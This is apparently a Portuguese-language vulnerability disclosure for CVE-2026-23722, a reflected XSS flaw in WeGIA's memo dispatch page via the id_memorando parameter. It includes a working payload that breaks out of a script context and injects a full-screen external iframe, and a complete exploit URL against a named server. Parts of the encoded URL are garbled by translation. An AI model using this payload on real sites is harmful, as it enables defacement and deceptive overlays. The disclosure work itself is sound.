

## CVE-2026-23722: Cross-Site Scripting (XSS) Reflected permite a execução de código arbitrário e a alteração da interface do usuário.

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2026-23722***

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de Cross-Site Scripting (XSS) refletido foi descoberta no sistema WeGIA, especificamente no arquivo <code>html/memorando/insere_despacho.php</code>.</p>

## Detalhes

Endpoint vulnerável: `/html/memorando/insere_despacho.php`

Parâmetro: `id_memorando`

## PoC

### Payload:

```html
</script><iframe src="https://js-dos.com/games/doom.exe.html" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"></iframe>
```

#### Exemplo de URL:

```html
https://sec.wegia.org:8000/WeGIA/html/memorando/insere_despacho.php?id_memorando=1%3C%2Fscript%3E%3Ciframe%20src%3D%22https%3A%2F%2Fjs-dos.com%2Fgames%2Fdoom.exe.html%22%20style%3D%22position%3Afixed%3B%20to p% 3A0% 3B% 20esquerda%3A0%3B%20inferior%3A0%3B%20direita%3A0%3B%20largura%3A100%25%3B%20altura%3A100%25%3B%20borda%3A nenhum% 3B% 20margem% 3A0% 3B% 20preenchimento% 3A0%3B% 20overflow% 3Ahidden% 3B% 20z-index% 3A999999% 3B% 22% 3E% 3C% 2Fiframe% 3E
```

### Passos para reproduzir

<p style="text-align: justify;">

<ul>

<li>O payload sai do contexto existente (provavelmente uma atribuição de variável JavaScript) usando a tag <code>script</code> e injeta um iframe externo que cobre toda a área visível.</li>

</ul>
</p>



## Impacto

<p style="text-align: justify;">
    <ul>
        <li>Roubo de cookies de sessão: Invasores podem usar cookies de sessão roubados para sequestrar a sessão de um usuário e executar ações em seu nome.</li>
        <li>Baixar malware: Invasores podem induzir os usuários a baixar e instalar malware em seus computadores.</li>
        <li>Sequestro de navegadores: Invasores podem sequestrar o navegador de um usuário ou aplicar exploits baseados nele.</li>
        <li>Roubo de credenciais: Invasores podem roubar as credenciais de um usuário.</li>
        <li>Obter informações confidenciais: Invasores podem obter informações confidenciais armazenadas na conta de um usuário ou em seu navegador.</li>
        <li>Desfigurar sites: Invasores podem desfigurar um site alterando seu conteúdo.</li>
        <li>Desorientar usuários: Invasores podem alterar as instruções fornecidas aos usuários que visitam o site alvo, desorientando seu comportamento.</li>
        <li>Prejudicar a reputação de uma empresa: Invasores podem prejudicar a imagem de uma empresa ou espalhar desinformação desfigurando um site corporativo.</li>
    </ul>
</p>

## Referência

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-g7hh-6qj7-mcqf](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-g7hh-6qj7-mcqf)

## Encontrado por:

[](https://www.linkedin.com/in/marcos-tolosa/) [Marcos Tolosa](https://www.linkedin.com/in/marcos-tolosa/)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***